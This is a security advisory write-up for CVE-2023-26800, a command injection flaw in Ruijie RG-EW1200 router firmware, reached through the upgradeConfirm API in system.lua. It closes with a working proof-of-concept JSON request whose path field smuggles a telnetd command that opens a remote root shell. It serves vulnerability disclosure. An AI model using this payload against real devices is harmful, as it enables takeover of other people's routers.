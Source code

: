 # CVE-ID

[CVE-2023-26800](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26800 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26800")

# Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    RG-EW1200 Wireless Routers

**Affected firmware version:**    EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:**    [https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

`Ruijie Networks RG-EW1200 Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `params.path` parameter in the `upgradeConfirm` function of `system.lua`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.

![](./pic/4.png)

Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.

![](./pic/1.png)

![](./pic/2.png)

Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.

![](./pic/3.png)

# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
	"method": "upgradeConfirm",
	"params": {
		"isPersist": "aaaa",
		"path": "`telnetd -p 8888 -l /bin/sh`"
	}
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.

![](./pic/5.png)

At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.

![](./pic/6.png)
